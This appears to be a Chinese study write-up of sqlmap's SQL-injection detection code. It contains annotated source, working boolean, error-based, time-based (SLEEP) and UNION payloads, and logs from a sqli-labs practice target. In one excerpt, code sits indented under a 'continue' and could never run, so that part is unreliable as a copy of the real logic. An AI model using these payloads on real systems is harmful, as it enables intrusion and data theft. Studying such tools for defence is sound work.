    # 'title': 'AND boolean-based blind - WHERE or HAVING clause', 测试输出的标题
    # 'clause': [1, 8, 9],
    # 'level': 1, 级别
    # 'request': {'payload': 'AND [RANDNUM]=[RANDNUM]'}, 请求的payload
    # 'vector': 'AND [INFERENCE]',
    # 'where': [1],
    # 'response': {
    #     'comparison': 'AND [RANDNUM]=[RANDNUM1]'
    #     },
    # 'stype': 1}
    seenPayload = set()
    # 设置默认随机数字和随机字符串10位长度
    kb.data.setdefault("randomInt", str(randomInt(10)))
    kb.data.setdefault("randomStr", str(randomStr(10)))

    while tests:
        test = tests.pop(0)

        try:
            if kb.endDetection:
                break

            title = test.title # 'AND boolean-based blind - WHERE or HAVING clause'
            kb.testType = stype = test.stype # 1

            # 1: Boolean-based blind SQL injection
            # 2: Error-based queries SQL injection
            # 3: Inline queries SQL injection
            # 4: Stacked queries SQL injection
            # 5: Time-based blind SQL injection
            # 6: UNION query SQL injection

            clause = test.clause # [1, 8, 9]
            #payload在哪个位置生效  
            # 0: Always
            # 1: WHERE / HAVING
            # 2: GROUP BY
            # 3: ORDER BY
            # 4: LIMIT
            # 5: OFFSET
            # 6: TOP
            # 7: Table name
            # 8: Column name
            # 9: Pre-WHERE (non-query)

            unionExtended = False
            trueCode, falseCode = None, None

            # 联合查询
            if stype == PAYLOAD.TECHNIQUE.UNION: # 6 union联合查询 我们这条测试语句是1
                configUnion(test.request.char)

                if "[CHAR]" in title:
                    if conf.uChar is None:
                        continue
                    else:
                        title = title.replace("[CHAR]", conf.uChar)

                elif "[RANDNUM]" in title or "(NULL)" in title:
                    title = title.replace("[RANDNUM]", "random number")

                if test.request.columns == "[COLSTART]-[COLSTOP]":
                    if conf.uCols is None:
                        continue
                    else:
                        title = title.replace("[COLSTART]", str(conf.uColsStart))
                        title = title.replace("[COLSTOP]", str(conf.uColsStop))

                elif conf.uCols is not None:
                    debugMsg = "skipping test '%s' because the user " % title
                    debugMsg += "provided custom column range %s" % conf.uCols
                    logger.debug(debugMsg)
                    continue

                match = re.search(r"(\d+)-(\d+)", test.request.columns)
                if match and injection.data:
                    lower, upper = int(match.group(1)), int(match.group(2))
                    for _ in (lower, upper):
                        if _ > 1:
                            __ = 2 * (_ - 1) + 1 if _ == lower else 2 * _
                            unionExtended = True
                            test.request.columns = re.sub(r"\b%d\b" % _, str(__), test.request.columns)
                            title = re.sub(r"\b%d\b" % _, str(__), title)
                            test.title = re.sub(r"\b%d\b" % _, str(__), test.title)

            #如果用户只想测试特定的类型
            if conf.tech and isinstance(conf.tech, list) and stype not in conf.tech:
                debugMsg = "skipping test '%s' because the user " % title
                debugMsg += "specified to test only for "
                debugMsg += "%s techniques" % " & ".join(PAYLOAD.SQLINJECTION[_] for _ in conf.tech)
                logger.debug(debugMsg)
                continue

            #如果已经是相同的sql注入类型，则跳过测试
            #由另一个测试确定
            if injection.data and stype in injection.data:
                debugMsg = "skipping test '%s' because " % title
                debugMsg += "the payload for %s has " % PAYLOAD.SQLINJECTION[stype]
                debugMsg += "already been identified"
                logger.debug(debugMsg)
                continue

            #分析DBMS特定有效负载的详细信息
            if "details" in test and "dbms" in test.details:
                payloadDbms = test.details.dbms
            else:
                payloadDbms = None

            # 这里省略了各种跳过一些测试的判断


            if not conf.testFilter and not (kb.extendTests and intersect(payloadDbms, kb.extendTests, True)):
                # 高过配置的危险级别不执行
                if test.risk > conf.risk:
                    debugMsg = "skipping test '%s' because the risk (%d) " % (title, test.risk)
                    debugMsg += "is higher than the provided (%d)" % conf.risk
                    logger.debug(debugMsg)
                    continue
                # 还要对于 level 等级进行限制
                if test.level > conf.level:
                    debugMsg = "skipping test '%s' because the level (%d) " % (title, test.level)
                    debugMsg += "is higher than the provided (%d)" % conf.level
                    logger.debug(debugMsg)
                    continue

            
            # 输出测试标题
            infoMsg = "testing '%s'" % title
            logger.info(infoMsg)

            #根据当前测试dbms值强制后端dbms
            #正确的有效载荷
            # 根据启发式获取的数据库类型来配置到 Backend
            Backend.forceDbms(payloadDbms[0] if isinstance(payloadDbms, list) else payloadDbms)

            #  comment 是空  因为 test.request 是 {'payload': 'AND [RANDNUM]=[RANDNUM]'}
            comment = agent.getComment(test.request) if len(conf.boundaries) > 1 else None
            fstPayload = agent.cleanupPayload(test.request.payload, origValue=value if place not in (PLACE.URI, PLACE.CUSTOM_POST, PLACE.CUSTOM_HEADER) and BOUNDED_INJECTION_MARKER not in (value or "") else None)
            # 这里面对标识符进行替换 这里是 RANDNUM 换为随机数字
            # 最后获取 fstPayload 'AND 7282=7282'
            # 这个边界 就是各种闭合的  ' and '1'='1  闭合单引号
            for boundary in boundaries:
                injectable = False

                if boundary.level > conf.level and not (kb.extendTests and intersect(payloadDbms, kb.extendTests, True)):
                    continue
                # 字段 要匹配上才可以 test的生效字段和 边界的
                clauseMatch = False

                for clauseTest in test.clause:
                    if clauseTest in boundary.clause:
                        clauseMatch = True
                        break

                if test.clause != [0] and boundary.clause != [0] and not clauseMatch:
                    continue

                whereMatch = False

                for where in test.where:
                    if where in boundary.where:
                        whereMatch = True
                        break

                if not whereMatch:
                    continue

                    # 对 payload进行去重 正则去掉 数字等变量
                    if fstPayload:
                        boundPayload = agent.prefixQuery(fstPayload, prefix, where, clause)
                        boundPayload = agent.suffixQuery(boundPayload, comment, suffix, where)
                        reqPayload = agent.payload(place, parameter, newValue=boundPayload, where=where)
                        # reqPayload= u'id=__PAYLOAD_DELIMITER__1) AND 7282=7282 AND (5049=5049__PAYLOAD_DELIMITER__'
                        # 这里对测试语句进行payload标识位置
                        if reqPayload:
                            stripPayload = re.sub(r"(\A|\b|_)([A-Za-z]{4}((?<!LIKE))|\d+)(_|\b|\Z)", r"\g<1>.\g<4>", reqPayload)
                            if stripPayload in seenPayload:
                                # stripPayload = u'id=__PAYLOAD_DELIMITER__.) AND .=. AND (.=.__PAYLOAD_DELIMITER__'
                                continue
                            else:
                                seenPayload.add(stripPayload)
                    else:
                        reqPayload = None

                    # 执行测试请求并检查
                    #分析测试的<response>
                    for method, check in test.response.items():
                        check = agent.cleanupPayload(check, origValue=value if place not in (PLACE.URI, PLACE.CUSTOM_POST, PLACE.CUSTOM_HEADER) and BOUNDED_INJECTION_MARKER not in (value or "") else None)

                        # 布尔盲注
                        if method == PAYLOAD.METHOD.COMPARISON:
                            # Generate payload used for comparison
                            def genCmpPayload():
                                sndPayload = agent.cleanupPayload(test.response.comparison, origValue=value if place not in (PLACE.URI, PLACE.CUSTOM_POST, PLACE.CUSTOM_HEADER) and BOUNDED_INJECTION_MARKER not in (value or "") else None)

                                # Forge response payload by prepending with
                                # boundary's prefix and appending the boundary's
                                # suffix to the test's ' <payload><comment> '
                                # string
                                boundPayload = agent.prefixQuery(sndPayload, prefix, where, clause)
                                boundPayload = agent.suffixQuery(boundPayload, comment, suffix, where)
                                cmpPayload = agent.payload(place, parameter, newValue=boundPayload, where=where)

                                return cmpPayload

                            # Useful to set kb.matchRatio at first based on
                            # the False response content
                            kb.matchRatio = None
                            kb.negativeLogic = (where == PAYLOAD.WHERE.NEGATIVE)
                            # 传入的 u'id=__PAYLOAD_DELIMITER__1) AND 9287=9488 AND (8325=8325__PAYLOAD_DELIMITER__'
                            Request.queryPage(genCmpPayload(), place, raise404=False)
                            falsePage, falseHeaders, falseCode = threadData.lastComparisonPage or "", threadData.lastComparisonHeaders, threadData.lastComparisonCode
                            falseRawResponse = "%s%s" % (falseHeaders, falsePage)

                            # Perform the test's True request
                            # true
                            trueResult = Request.queryPage(reqPayload, place, raise404=False)
                            truePage, trueHeaders, trueCode = threadData.lastComparisonPage or "", threadData.lastComparisonHeaders, threadData.lastComparisonCode
                            trueRawResponse = "%s%s" % (trueHeaders, truePage)
                            # 两次页面不一样的话继续走
                            if trueResult and not(truePage == falsePage and not kb.nullConnection):
                                # Perform the test's False request
                                falseResult = Request.queryPage(genCmpPayload(), place, raise404=False)

                                if not falseResult:
                                    if kb.negativeLogic:
                                        boundPayload = agent.prefixQuery(kb.data.randomStr, prefix, where, clause)
                                        boundPayload = agent.suffixQuery(boundPayload, comment, suffix, where)
                                        errorPayload = agent.payload(place, parameter, newValue=boundPayload, where=where)

                                        errorResult = Request.queryPage(errorPayload, place, raise404=False)
                                        if errorResult:
                                            continue
                                    elif kb.heuristicPage and not any((conf.string, conf.notString, conf.regexp, conf.code, kb.nullConnection)):
                                        _ = comparison(kb.heuristicPage, None, getRatioValue=True)
                                        if _ > kb.matchRatio:
                                            kb.matchRatio = _
                                            logger.debug("adjusting match ratio for current parameter to %.3f" % kb.matchRatio)

                                    # Reducing false-positive "appears" messages in heavily dynamic environment
                                    if kb.heavilyDynamic and not Request.queryPage(reqPayload, place, raise404=False):
                                        continue

                                    injectable = True

                                elif threadData.lastComparisonRatio > UPPER_RATIO_BOUND and not any((conf.string, conf.notString, conf.regexp, conf.code, kb.nullConnection)):
                                    originalSet = set(getFilteredPageContent(kb.pageTemplate, True, "\n").split("\n"))
                                    trueSet = set(getFilteredPageContent(truePage, True, "\n").split("\n"))
                                    falseSet = set(getFilteredPageContent(falsePage, True, "\n").split("\n"))

                                    if threadData.lastErrorPage and threadData.lastErrorPage[1]:
                                        errorSet = set(getFilteredPageContent(threadData.lastErrorPage[1], True, "\n").split("\n"))
                                    else:
                                        errorSet = set()

                                    if originalSet == trueSet != falseSet:
                                        candidates = trueSet - falseSet - errorSet

                                        if candidates:
                                            candidates = sorted(candidates, key=lambda _: len(_))
                                            for candidate in candidates:
                                                if re.match(r"\A[\w.,! ]+\Z", candidate) and ' ' in candidate and candidate.strip() and len(candidate) > CANDIDATE_SENTENCE_MIN_LENGTH:
                                                    conf.string = candidate
                                                    injectable = True

                                                    infoMsg = "%s parameter '%s' appears to be '%s' injectable (with --string=\"%s\")" % (paramType, parameter, title, repr(conf.string).lstrip('u').strip("'"))
                                                    logger.info(infoMsg)

                                                    break

                            if injectable:
                                if kb.pageStable and not any((conf.string, conf.notString, conf.regexp, conf.code, kb.nullConnection)):
                                    if all((falseCode, trueCode)) and falseCode != trueCode:
                                        conf.code = trueCode

                                        infoMsg = "%s parameter '%s' appears to be '%s' injectable (with --code=%d)" % (paramType, parameter, title, conf.code)
                                        logger.info(infoMsg)
                                    else:
                                        trueSet = set(extractTextTagContent(trueRawResponse))
                                        trueSet |= set(__ for _ in trueSet for __ in _.split())

                                        falseSet = set(extractTextTagContent(falseRawResponse))
                                        falseSet |= set(__ for _ in falseSet for __ in _.split())

                                        if threadData.lastErrorPage and threadData.lastErrorPage[1]:
                                            errorSet = set(extractTextTagContent(threadData.lastErrorPage[1]))
                                            errorSet |= set(__ for _ in errorSet for __ in _.split())
                                        else:
                                            errorSet = set()

                                        candidates = filter(None, (_.strip() if _.strip() in trueRawResponse and _.strip() not in falseRawResponse else None for _ in (trueSet - falseSet - errorSet)))

                                        if candidates:
                                            candidates = sorted(candidates, key=lambda _: len(_))
                                            for candidate in candidates:
                                                if re.match(r"\A\w+\Z", candidate):
                                                    break

                                            conf.string = candidate

                                            infoMsg = "%s parameter '%s' appears to be '%s' injectable (with --string=\"%s\")" % (paramType, parameter, title, repr(conf.string).lstrip('u').strip("'"))
                                            logger.info(infoMsg)

                                        if not any((conf.string, conf.notString)):
                                            candidates = filter(None, (_.strip() if _.strip() in falseRawResponse and _.strip() not in trueRawResponse else None for _ in (falseSet - trueSet)))

                                            if candidates:
                                                candidates = sorted(candidates, key=lambda _: len(_))
                                                for candidate in candidates:
                                                    if re.match(r"\A\w+\Z", candidate):
                                                        break

                                                conf.notString = candidate

                                                infoMsg = "%s parameter '%s' appears to be '%s' injectable (with --not-string=\"%s\")" % (paramType, parameter, title, repr(conf.notString).lstrip('u').strip("'"))
                                                logger.info(infoMsg)

                                if not any((conf.string, conf.notString, conf.code)):
                                    infoMsg = "%s parameter '%s' appears to be '%s' injectable " % (paramType, parameter, title)
                                    singleTimeLogMessage(infoMsg)

                        # 报错注入
                        elif method == PAYLOAD.METHOD.GREP:
                        # {
                        #     'risk': 1,
                        #     'title': 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)',
                        #     'clause': [1, 2, 3, 8, 9],
                        #     'level': 4,
                        #     'request': { 
                        #         'payload': "AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT('[DELIMITER_START]',(SELECT (ELT([RANDNUM]=[RANDNUM],1))),'[DELIMITER_STOP]','x'))s), 8446744073709551610, 8446744073709551610)))"
                        #     },
                        #     'vector': "AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]','x'))s), 8446744073709551610, 8446744073709551610)))",
                        #     'details': {
                        #         'dbms': 'MySQL',
                        #         'dbms_version': '>= 5.5'
                        #     },
                        #     'where': [1],
                        #     'response': {
                        #         'grep': '[DELIMITER_START](?P<result>.*?)[DELIMITER_STOP]'
                        #     },
                        #     'stype': 2
                        # }
                        # 对于 响应匹配 q(zqxjkvbp)q 中间随机三位
                        # 正则匹配 response 的 grep
                            try:
                                page, headers, _ = Request.queryPage(reqPayload, place, content=True, raise404=False)
                                output = extractRegexResult(check, page, re.DOTALL | re.IGNORECASE)
                                output = output or extractRegexResult(check, threadData.lastHTTPError[2] if wasLastResponseHTTPError() else None, re.DOTALL | re.IGNORECASE)
                                output = output or extractRegexResult(check, listToStrValue((headers[key] for key in headers.keys() if key.lower() != URI_HTTP_HEADER.lower()) if headers else None), re.DOTALL | re.IGNORECASE)
                                output = output or extractRegexResult(check, threadData.lastRedirectMsg[1] if threadData.lastRedirectMsg and threadData.lastRedirectMsg[0] == threadData.lastRequestUID else None, re.DOTALL | re.IGNORECASE)

                                if output:
                                    result = output == "1"

                                    if result:
                                        infoMsg = "%s parameter '%s' is '%s' injectable " % (paramType, parameter, title)
                                        logger.info(infoMsg)

                                        injectable = True

                            except SqlmapConnectionException, msg:
                                debugMsg = "problem occurred most likely because the "
                                debugMsg += "server hasn't recovered as expected from the "
                                debugMsg += "error-based payload used ('%s')" % msg
                                logger.debug(debugMsg)

                        # 时间盲注
                        elif method == PAYLOAD.METHOD.TIME:
                            # Perform the test's request
                            trueResult = Request.queryPage(reqPayload, place, timeBasedCompare=True, raise404=False)
                            trueCode = threadData.lastCode

                            if trueResult:
                                # Extra validation step (e.g. to check for DROP protection mechanisms)
                                if SLEEP_TIME_MARKER in reqPayload:
                                    falseResult = Request.queryPage(reqPayload.replace(SLEEP_TIME_MARKER, "0"), place, timeBasedCompare=True, raise404=False)
                                    if falseResult:
                                        continue

                                # Confirm test's results
                                trueResult = Request.queryPage(reqPayload, place, timeBasedCompare=True, raise404=False)

                                if trueResult:
                                    infoMsg = "%s parameter '%s' appears to be '%s' injectable " % (paramType, parameter, title)
                                    logger.info(infoMsg)

                                    injectable = True

                        # 联合查询
                        elif method == PAYLOAD.METHOD.UNION:
                            # Test for UNION injection and set the sample
                            # payload as well as the vector.
                            # NOTE: vector is set to a tuple with 6 elements,
                            # used afterwards by Agent.forgeUnionQuery()
                            # method to forge the UNION query payload

                            configUnion(test.request.char, test.request.columns)

                            if len(kb.dbmsFilter or []) == 1:
                                Backend.forceDbms(kb.dbmsFilter[0])
                            elif not Backend.getIdentifiedDbms():
                                if kb.heuristicDbms is None:
                                    if kb.heuristicTest == HEURISTIC_TEST.POSITIVE or injection.data:
                                        warnMsg = "using unescaped version of the test "
                                        warnMsg += "because of zero knowledge of the "
                                        warnMsg += "back-end DBMS. You can try to "
                                        warnMsg += "explicitly set it with option '--dbms'"
                                        singleTimeWarnMessage(warnMsg)
                                else:
                                    Backend.forceDbms(kb.heuristicDbms)

                            if unionExtended:
                                infoMsg = "automatically extending ranges for UNION "
                                infoMsg += "query injection technique tests as "
                                infoMsg += "there is at least one other (potential) "
                                infoMsg += "technique found"
                                singleTimeLogMessage(infoMsg)

                            # Test for UNION query SQL injection
                            reqPayload, vector = unionTest(comment, place, parameter, value, prefix, suffix)

                            if isinstance(reqPayload, basestring):
                                infoMsg = "%s parameter '%s' is '%s' injectable" % (paramType, parameter, title)
                                logger.info(infoMsg)

                                injectable = True

                                # Overwrite 'where' because it can be set
                                # by unionTest() directly
                                where = vector[6]

                        kb.previousMethod = method

                        if conf.offline:
                            injectable = False

                    # If the injection test was successful feed the injection
                    # object with the test's details
                    if injectable is True:
                        # Feed with the boundaries details only the first time a
                        # test has been successful
                        if injection.place is None or injection.parameter is None:
                            if place in (PLACE.USER_AGENT, PLACE.REFERER, PLACE.HOST):
                                injection.parameter = place
                            else:
                                injection.parameter = parameter

                            injection.place = place
                            injection.ptype = ptype
                            injection.prefix = prefix
                            injection.suffix = suffix
                            injection.clause = clause

                        # 注入的语句有的是能确定数据库类型及其版本的 确定的话就存储数据
                        if hasattr(test, "details"):
                            for key, value in test.details.items():
                                if key == "dbms":
                                    injection.dbms = value

                                    if not isinstance(value, list):
                                        Backend.setDbms(value)
                                    else:
                                        Backend.forceDbms(value[0], True)

                                elif key == "dbms_version" and injection.dbms_version is None and not conf.testFilter:
                                    injection.dbms_version = Backend.setVersion(value)

                                elif key == "os" and injection.os is None:
                                    injection.os = Backend.setOs(value)

                        if vector is None and "vector" in test and test.vector is not None:
                            vector = test.vector
                        # 成功后将注入的数据都存储到 inject中
                        injection.data[stype] = AttribDict()
                        injection.data[stype].title = title
                        injection.data[stype].payload = agent.removePayloadDelimiters(reqPayload)
                        # payload u'id=1") AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x71786b6a71,(SELECT (ELT(9718=9718,1))),0x7162627671,0x78))s), 8446744073709551610, 8446744073709551610))) AND ("qNpF"="qNpF'
                        injection.data[stype].where = where
                        injection.data[stype].vector = vector
                        # vector "AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]','x'))s), 8446744073709551610, 8446744073709551610)))"
                        injection.data[stype].comment = comment
                        injection.data[stype].templatePayload = templatePayload
                        injection.data[stype].matchRatio = kb.matchRatio
                        injection.data[stype].trueCode = trueCode
                        injection.data[stype].falseCode = falseCode

                        injection.conf.textOnly = conf.textOnly
                        injection.conf.titles = conf.titles
                        injection.conf.code = conf.code
                        injection.conf.string = conf.string
                        injection.conf.notString = conf.notString
                        injection.conf.regexp = conf.regexp
                        injection.conf.optimize = conf.optimize

                        if not kb.alerted:
                            if conf.beep:
                                beep()

                            if conf.alert:
                                infoMsg = "executing alerting shell command(s) ('%s')" % conf.alert
                                logger.info(infoMsg)

                                process = subprocess.Popen(conf.alert.encode(sys.getfilesystemencoding() or UNICODE_ENCODING), shell=True)
                                process.wait()

                            kb.alerted = True

                        # There is no need to perform this test for other
                        # <where> tags
                        break

                if injectable is True:
                    kb.vulnHosts.add(conf.hostname)
                    break

            # Reset forced back-end DBMS value
            Backend.flushForcedDbms()


        finally:
            # Reset forced back-end DBMS value
            Backend.flushForcedDbms()

    Backend.flushForcedDbms(True)

    # Return the injection object
    if injection.place is not None and injection.parameter is not None:
        if not conf.dropSetCookie and PAYLOAD.TECHNIQUE.BOOLEAN in injection.data and injection.data[PAYLOAD.TECHNIQUE.BOOLEAN].vector.startswith('OR'):
            warnMsg = "in OR boolean-based injection cases, please consider usage "
            warnMsg += "of switch '--drop-set-cookie' if you experience any "
            warnMsg += "problems during data retrieval"
            logger.warn(warnMsg)

        if not checkFalsePositives(injection):
            kb.vulnHosts.remove(conf.hostname)
            if NOTE.FALSE_POSITIVE_OR_UNEXPLOITABLE not in injection.notes:
                injection.notes.append(NOTE.FALSE_POSITIVE_OR_UNEXPLOITABLE)

    else:
        injection = None

    if injection and NOTE.FALSE_POSITIVE_OR_UNEXPLOITABLE not in injection.notes:
        checkSuhosinPatch(injection)
        checkFilteredChars(injection)

    return injection
```

我们具体说明下 边界 test 等

##### test

参考 https://wooyun.js.org/drops/SQLMap%E7%9A%84%E5%89%8D%E4%B8%96%E4%BB%8A%E7%94%9F%EF%BC%88Part1%EF%BC%89.html  

**title属性**  
title属性为当前测试Payload的标题，通过标题就可以了解当前的注入手法与测试的数据库类型。

**stype属性**  
这一个属性标记着当前的注入手法类型，1为布尔类型盲注，2为报错注入。

```shell
1: Boolean-based blind SQL injection
2: Error-based queries SQL injection
3: Inline queries SQL injection
4: Stacked queries SQL injection
5: Time-based blind SQL injection
6: UNION query SQL injection
```

**level属性**  
这个属性是每个test都有的，他是作用是是限定在SQL测试中处于哪个深度，简单的来说就是当你在使用SQLMAP进行SQL注入测试的时候，需要指定扫描的level，默认是1，最大为5，当level约高是，所执行的test越多，如果你是指定了level5进行注入测试，那麽估计执行的测试手法会将超过1000个。

```shell
1: Always (<100 requests)
2: Try a bit harder (100-200 requests)
3: Good number of requests (200-500 requests)
4: Extensive test (500-1000 requests)
5: You have plenty of time (>1000 requests)
```

**clause**  
payload在哪个位置生效  

```shell
0: Always
1: WHERE / HAVING
2: GROUP BY
3: ORDER BY
4: LIMIT
5: OFFSET
6: TOP
7: Table name
8: Column name
9: Pre-WHERE (non-query)
```

**where属性**  
添加完整payload<prefix> <payload><comment> <suffix>的地方, 这和boundary子节点where的含义是一致的

```shell
1:将字符串附加到 参数原始值
2:将参数原始值替换为负随机整数值，并附加字符串
3:用字符串替换 参数原始值
```

**payload属性**  
这一属性既是将要进行测试的SQL语句，也是SQLMap扫描逻辑的关键,其中的[RANDNUM]，[DELIMITER_START]，[DELIMITER_STOP]分别代表着随机数值与字符。当SQLMap扫描时会把对应的随机数替换掉,然后再与boundary的前缀与后缀拼接起来,最终成为测试的Payload。

comment 是注释  在payload之后 后缀之前的语句  


**details属性**  
其子节点会一般有两个，其dbms子节所代表的是当前Payload所适用的数据库类型，当前例子中的值为MySQL，则表示其Payload适用的数据库为MySQL,其dbms_version子节所代表的适用的数据库版本。

**response属性**  
这一属性下的子节点标记着当前测试的Payload测试手法  
    grep        ：报错注入  
    comparison  ：布尔盲注入  
    time        ：延时注入  
    union       ：联合查询注入  

vetor 注入向量 指定将使用的注入模板  


##### boundary

**ptype**  
测试参数的类型  

```shell
1：非转义数字
2：单引号字符串
3:像单引号字符串
4:双引号字符串
5:像双引号字符串
```

**prefix**  
前缀

```shell
<payload> <comment>添加的前缀
```

**suffix**  
后缀

```shell
<payload> <comment>添加的后缀
```

循环遍历每一个test,  
对某个test,循环遍历boundary  
若boundary的where包含test的where值，并且boundary的clause包含test的clause值, 则boundary和test可以匹配  
循环test的where值,结合匹配的boundary生成相应的payload  

第一个匹配上的 边界的前后缀:  

```python
prefix: ')'
suffix: 'AND ([RANDNUM]=[RANDNUM]'
```

闭合前面的括号 成对出现的  

如果有参数指定的前后缀则使用参数指定的  

然后对 test的paylaod 对应的增加前后缀  

第一次发正确的  
u'1) AND 7862=7862 AND (9976=9976'  
然后进行编码  

然后将请求的页面等数据存储到当前线程 threadData中存储  

```python
trueResult = Request.queryPage(reqPayload, place, raise404=False)
truePage, trueHeaders, trueCode = threadData.lastComparisonPage or "", threadData.lastComparisonHeaders, threadData.lastComparisonCode
trueRawResponse = "%s%s" % (trueHeaders, truePage)
```

有闭合前后括号  
最后面注释  

他会对payload 把数字等去掉来进行去除  

请求的时候会标识符进行替换 然后再发起请求  

1 and 1873=9402  
1 and 9977=9977  

最后是单引号闭合成功 因为页面不同了 因为是错误的


##### 布尔盲注
  

这两次的页面内容都是一样的 

后续替换边界验证  

  

最后单引号的两次页面不一样  

trueRawResponse  

```python
'Date: Sat, 02 Nov 2019 03:13:49 GMT\r\n', 'Server: Apache/2.4.7 (Ubuntu)\r\n', 'X-Powered-By: PHP/5.5.9-1ubuntu4.13\r\n', 'Vary: Accept-Encoding\r\n', 'Content-Encoding: gzip\r\n', 'Content-Length: 456\r\n', 'Connection: close\r\n', 'Content-Type: text/html\r\n'<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-1 **Error Based- String**</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:70px;color:#FFF; font-size:23px; text-align:center">Welcome\xa0\xa0\xa0<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">

<font size='5' color= '#99FF00'>Your Login name:Dumb<br>Your Password:Dumb</font></font> </div></br></br></br><center>
</center>
</body>
</html>

```

falseRawResponse  

```python
'Date: Sat, 02 Nov 2019 03:13:46 GMT\r\n', 'Server: Apache/2.4.7 (Ubuntu)\r\n', 'X-Powered-By: PHP/5.5.9-1ubuntu4.13\r\n', 'Vary: Accept-Encoding\r\n', 'Content-Encoding: gzip\r\n', 'Content-Length: 424\r\n', 'Connection: close\r\n', 'Content-Type: text/html\r\n'<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-1 **Error Based- String**</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:70px;color:#FFF; font-size:23px; text-align:center">Welcome\xa0\xa0\xa0<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">

<font color= "#FFFF00"></font></font> </div></br></br></br><center>
</center>
</body>
</html>

```

他会解析html出标签对应的内容 去重去掉空格  
所以就得到两个页面的不同的内容地方也就是回显的地方  

这里有个问题就是说只要找到就直接跳出遍历了  
这里就是那个 Your  


  

  


##### 报错注入

  

'qjzkq(?P<result>.*?)qvxpq'
他这里的两端是这样的规则:  
 q(zqxjkvbp)q (result) q(zqxjkvbp)q      
 中间随机三位 作为前后隔绝的  

  

##### 时间盲注

时间是这样的先5s然后0再5来确认结果  
这个5s是
```python
[20:48:41] [PAYLOAD] 1' AND SLEEP(5) AND 'xXoJ'='xXoJ
[20:48:47] [PAYLOAD] 1' AND SLEEP(0) AND 'xXoJ'='xXoJ
[20:48:47] [PAYLOAD] 1' AND SLEEP(5) AND 'xXoJ'='xXoJ
[20:48:52] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable
```
对于时间盲注的特点  
他每次请求都是用的这个 并设置了时间盲注参数为True
```python
Request.queryPage(reqPayload, place, timeBasedCompare=True, raise404=False)
```
这里有 timeBasedCompare 里面就有对时间进行判断  

这里对时间的判断我简单的跟了下


```python
# 这里先获取几次访问的响应时间 计算出标准差
deviation = stdev(kb.responseTimes.get(kb.responseTimeMode, []))
threadData = getCurrentThreadData()

if deviation and not conf.direct and not conf.disableStats:
	# 存储的请求的时间次数小于30则请求30次
	if len(kb.responseTimes[kb.responseTimeMode]) < MIN_TIME_RESPONSES:
		warnMsg = "time-based standard deviation method used on a model "
		warnMsg += "with less than %d response times" % MIN_TIME_RESPONSES
		logger.warn(warnMsg)
	# TIME_STDEV_COEFF 延迟基数就是7 * 标准差 + 响应时间列表的算术平均值
	lowerStdLimit = average(kb.responseTimes[kb.responseTimeMode]) + TIME_STDEV_COEFF * deviation
	# 最小有效延迟响应=0.5 与 上面算出来的正常的最小响应值 然后取最大与上一次的时间进行比较
	retVal = (threadData.lastQueryDuration >= max(MIN_VALID_DELAYED_RESPONSE, lowerStdLimit))

	if not kb.testMode and retVal:
		if kb.adjustTimeDelay is None:
			msg = "do you want sqlmap to try to optimize value(s) "
			msg += "for DBMS delay responses (option '--time-sec')? [Y/n] "

			kb.adjustTimeDelay = ADJUST_TIME_DELAY.DISABLE if not readInput(msg, default='Y', boolean=True) else ADJUST_TIME_DELAY.YES
		if kb.adjustTimeDelay is ADJUST_TIME_DELAY.YES:
			adjustTimeDelay(threadData.lastQueryDuration, lowerStdLimit)

	return retVal
else:
	delta = threadData.lastQueryDuration - conf.timeSec
	if Backend.getIdentifiedDbms() in (DBMS.MYSQL,):  # MySQL's SLEEP(X) lasts 0.05 seconds shorter on average
		delta += 0.05
	return delta >= 0

```
就是说 sqlmap对时间盲注的判断是只要 超过标准的延迟时间就认为是有延迟了而不是直接判断测试的延迟时间  

  

时间盲注成功 获取到响应的值大于 最大延迟值  
  

如果命中则再测试下0延迟的时候是否是0  
之后再请求一次5s的是否可以延迟 延迟则成功  

会有人问了这个5s是从哪里来的 为什么是5s  
是默认的 5s
从 sqlmap.conf配置的并加载到  conf.timeSec 请求的时候把payload的 SLEEPTIME 替换为时间 
```python
# Seconds to delay the response from the DBMS.
# Valid: integer
# Default: 5
timeSec = 5
```

##### 联合查询
联合查询是 cahr: NULL columns 是 1-20  这里是测试加入列有1到20的

先是 `1' ORDER BY 3-- mobs`  获取是三个字段  页面显示正常

`1' UNION ALL SELECT NULL,NULL,NULL-- NCHR`  

因为是有三个查询的位置  
然后让前一个查询为空 让联合查询后面的顶替到前面的位置  

```python
[17:10:09] [PAYLOAD] 1' UNION ALL SELECT NULL,CONCAT(0x716b6a6b71,0x68755345735665506377,0x71786a7871),NULL-- CYef
[17:10:09] [PAYLOAD] -2325' UNION ALL SELECT NULL,CONCAT(0x716b6a6b71,0x58457874656f4c636a5a59684143424469464e445551577364744f6c43587179464b766151495079,0x71786a7871),NULL-- UhFT

```

  

最后会把这几种注入成功的都输出  

  

要是pycharm 断点调试的话 最好设置下不使用缓存和输出级别高一些  

`-u "http://192.168.19.128:8089/Less-1/?id=1" --flush-session -v 3`  

这里就是最简单的 -u的参数执行了什么  

重新梳理下流程  

  


这里在网上找了一个更详细的流程图 但是不能下载只能在线看  
https://www.processon.com/view/5835511ce4b0620292bd7285

